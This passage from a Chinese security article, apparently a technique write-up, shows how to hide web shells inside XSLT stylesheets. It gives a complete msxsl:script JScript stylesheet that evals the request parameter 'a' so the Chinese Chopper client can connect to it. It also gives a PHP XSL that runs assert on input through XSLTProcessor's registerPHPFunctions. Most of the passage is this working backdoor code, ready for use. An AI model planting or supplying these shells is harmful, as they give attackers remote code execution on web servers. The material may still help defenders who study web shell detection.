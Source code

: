 ```
</xsl:stylesheet>

```

直接访问已经没有错误，但使用菜刀连接时爆出错误：

```
未声明变量“Response”

```

很显然，菜刀提交的语句中直接调用了Response。由于jscript.net中eval的上下文与调用方共享变量且具有同一名称，手动添加菜刀所需的Request、Response、Server，可以得到以下xslt：

```
<?xml version='1.0'?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:zcg="zcgonvh">
  <msxsl:script language="JScript" implements-prefix="zcg">
    <msxsl:assembly name="mscorlib, Version=2.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"/>
    <msxsl:assembly name="System.Data, Version=2.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"/>
    <msxsl:assembly name="System.Configuration, Version=2.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a"/>
    <msxsl:assembly name="System.Web, Version=2.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a"/>
    function xml() {var c=System.Web.HttpContext.Current;var Request=c.Request;var Response=c.Response;var Server=c.Server;eval(Request.Item['a'],'unsafe');Response.End();}
  </msxsl:script>
  <xsl:template match="/root">
    <xsl:value-of select="zcg:xml()"/>
  </xsl:template>
</xsl:stylesheet>

```

此时可使用菜刀直接进行连接，功能与aspx(eval)完全相同：

![enter image description here](http://drops.javaweb.org/uploads/images/91ab7cdfb97f9621ca9b8f8e1036806e2b58a09e.jpg)

最后要注意：xml的内嵌脚本块需要FullTrust信任等级，在安全模式下不能运行。当然，安全模式下正常的aspx一句话也不能运行，所以并不能算是一个缺点。

0x04 php与xml
=====

在php的官方文档中搜索xsl，将直接定位到XSLTProcessor类，在页面中可以看到很明显的registerPHPFunctions方法。 方法的示例就是一个完整的调用过程，将函数修改为assert并略作精简，可以得到以下xsl：

```
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:zcg="http://php.net/xsl">
 <xsl:template match="/root">
    <xsl:value-of select="zcg:function('assert',string(.))"/>
 </xsl:template>
</xsl:stylesheet>

```

